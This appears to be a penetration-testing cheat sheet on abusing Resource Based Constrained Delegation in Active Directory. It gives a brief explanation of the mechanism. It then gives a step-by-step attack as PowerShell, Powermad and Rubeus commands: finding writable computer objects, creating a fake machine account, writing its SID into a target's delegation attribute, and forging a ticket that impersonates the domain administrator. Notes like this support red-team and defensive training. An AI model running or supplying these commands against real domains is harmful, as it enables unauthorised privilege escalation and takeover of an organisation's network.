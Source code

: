 # Resource Based Constrained Delegation \(RBCD\)

## Resource Based Constrained Delegation \(RBCD\)

RBCD needs to happen from a computer account or a service account with a SPN.  
  
Attack can be done if a frontend service has a SID configured into the msDS- AllowedToActOnBehalfOfOtherIdentity property backend service.  
  
  
**msDSAllowedToActOnBehalfOfOtherIdentity** property controls delegation from the backend service  
  
To turn RBCD on, we need to write the SID frontend into a new propriety of the backend service.  
  
 → SeEnableDelegationPrivilege permissions are not required  
 → RBCD can typically be configured by the backend service administrator instead  
 → the frontend service must have an SPN set in the domain &gt; Computer Account  
  
  
S4U2Self forwardable TGS for any user to itself followed by S4U2Proxy to create a TGS for that user to the backend service.  
  
The KDC checks if the SID of the frontend service is present in the msDS-AllowedToActOnBehalfOfOtherIdentity property of the backend service.

### **Attack Path** 

* Compromise a domain account which have genericwrite on a computer account object.
* Add a new computer machine and force a password on it  \(user can add up to 10 computers by default\)

{% hint style="warning" %}
GenericAll, WriteProperty, GenericWrite or WriteDACL can be used to add change the SID on a computer object
{% endhint %}

Constrained Delegation Requirements :  
  
- Constrained Delegation = SPN on the frontend service \(msDSAllowedToDelegateTo propriety\)  
- SeEnableDelegationPrivilege priv

### Enumeration

#### Find GenericWrite access on a Computer Object

```csharp
 Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

![](../../../../.gitbook/assets/image%20%28105%29.png)

#### Computer Domain Join 

```csharp
 Get-DomainObject -Identity badcorp.local  -Properties ms-DS-MachineAccountQuota
```

![](../../../../.gitbook/assets/image%20%28142%29.png)

### Create a new machine account

#### Load powermad

```text
New-MachineAccount -MachineAccount fakeComputer -Password $(ConvertTo-SecureString 'Password123' -AsPlainText -Force)
```

![](../../../../.gitbook/assets/image%20%28293%29.png)

![](../../../../.gitbook/assets/image%20%285%29.png)

msDS-AllowedToActOnBehalfOfOtherIdentity property stores the SID as part of a security descriptor in a binary format which needs to be converted.

```csharp
$sid =Get-DomainComputer -Identity fakeComputer1 -Properties objectsid | Select -Expand objectsid
```

![](../../../../.gitbook/assets/image%20%28257%29%20%281%29.png)

* Instantiate a SecurityDescriptor object using RawSecurityDescriptor Class:

```csharp
$SecDesc = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"
```

![](../../../../.gitbook/assets/image%20%28102%29.png)

* convert it into a byte array to match the format for the msDS-AllowedToActOnBehalfOfOtherIdentity property:

```csharp
$sdFormat = New-Object byte[] ($SecDesc.BinaryLength)
$SecDesc.GetBinaryForm($sdFormat,0)
```

#### Abuse GenericWrite on the target server

```csharp
 Get-DomainComputer -Identity targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$sdFormat}
 $RBCD  = Get-DomainComputer targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
 $Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RBCD, 0
 $Descriptor.DiscretionaryAcl
```

![](../../../../.gitbook/assets/image%20%28118%29.png)

### Get a TGS using the fakeComputer account

#### Rubeus

```csharp
.\Rubeus.exe hash /password:Password123
.\Rubeus.exe s4u /user:fakeComputer /rc4:58A478135A93AC3BF058A5EA0E8FDB71  /impersonateuser:administrator /msdsspn:CIFS/targetServer.test.lab.local /ptt
```

![](../../../../.gitbook/assets/image%20%28246%29.png)

### Resources

{% embed url="https://github.com/Kevin-Robertson/Powermad" %}

{% embed url="https://github.com/GhostPack/Rubeus" %}







